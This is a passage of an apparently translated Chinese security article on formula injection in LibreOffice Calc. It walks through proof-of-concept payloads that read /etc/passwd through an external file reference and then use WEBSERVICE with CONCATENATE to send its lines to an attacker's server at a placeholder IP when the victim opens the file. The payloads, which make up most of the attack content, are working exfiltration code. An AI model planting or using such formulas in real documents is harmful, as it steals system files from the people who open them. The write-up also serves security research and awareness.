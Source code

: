 ```
='file:///etc/passwd'#$passwd.A1
```

[![](https://p1.ssl.qhimg.com/t01f7726ba9ac9d26bf.png)](https://p1.ssl.qhimg.com/t01f7726ba9ac9d26bf.png)<br>
分析上述payload：<br>`‘file:///etc/passwd’#$passwd.A1 – Will read the 1st line from the local /etc/passwd file`<br>
有趣的是，似乎还可以使用`http://`代替 `file:///`<br>
需要注意的是，在初次导入时，系统会提示用户执行如下屏幕截图所示的操作（在本例中显示`/ etc / group`的输出）。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d30142d3c64d2178.png)<br>
导入后，每当文档重新打开时，都会提示用户更新链接。

[![](https://p1.ssl.qhimg.com/t017c2faba406aa618e.png)](https://p1.ssl.qhimg.com/t017c2faba406aa618e.png)<br>
顺便提一下，通过更改行参考（在本例中为A2），我们可以从文件中读取更多条目。

[![](https://p0.ssl.qhimg.com/t015e1db03e8bdaaf14.png)](https://p0.ssl.qhimg.com/t015e1db03e8bdaaf14.png)

这一切都很好，但我们需要一种方法来查看来自远程系统的文件内容（我们不会在LibreOffice应用程序中查看这些结果！）<br>
这导致我们需要查看`WEBSERVICE`功能。实质上，我们可以使用此函数连接到我们控制的远程系统，然后发送对从本地`/ etc / passwd`文件中提取的数据的请求。显然，这些文件不会存在于攻击主机上，但GET请求将包含所有的信息，并且可以通过攻击主机上的日志或控制台输出。<br>
根据这个理论，我们提出了以下PoC。<br>
Payload 2:

```
=WEBSERVICE(CONCATENATE("http://&lt;ip&gt;:8080/",('file:///etc/passwd'#$passwd.A1)))
```

[![](https://p3.ssl.qhimg.com/t01851bc07d2cd4ce48.png)](https://p3.ssl.qhimg.com/t01851bc07d2cd4ce48.png)<br>
分析上述payload：

> <p>‘file：///etc/passwd’#$passwd.A1 – 将从本地/ etc / passwd文件读取第一行<br>
CONCATENATE（“http：// &lt;ip&gt;：8080”，（’file：///etc/passwd’#$passwd.A1）） – 连接IP地址并输出’file’<br>
WEBSERVICE – 将向我们的攻击主机发送针对给定URI的请求</p>

我们的攻击系统运行了Python的SimpleHTTPServer，当恶意文件在受害者系统上打开时，请求就会被我们的服务器接收并接收。

[![](https://p0.ssl.qhimg.com/t011803b0cdcbe956c9.png)](https://p0.ssl.qhimg.com/t011803b0cdcbe956c9.png)<br>
同样，我们创建了几个paylaod来读取目标文件。如果空间不是问题，只需确保最后一个引用（即`＃$ passwd.A1`）设置为每行增加一行，就可以通过在单个文档中嵌入多行来轻松实现此任务。以下PoC将提取并发送目标文件`/ etc / passwd`中的前30行。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t013018a14abfc12940.png)<br>
但是，实现相同目标的更简洁的方法是在单个公式中引用多行，如下所示。<br>
在执行下面的payload时，来自`/ etc / passwd`文件的2行被发送到攻击服务器。

Payload 3:

```
=WEBSERVICE(CONCATENATE("http://&lt;ip&gt;:8080/",('file:///etc/passwd'#$passwd.A1)&amp;CHAR(36)&amp;('file:///etc/passwd'#$passwd.A2)))
```
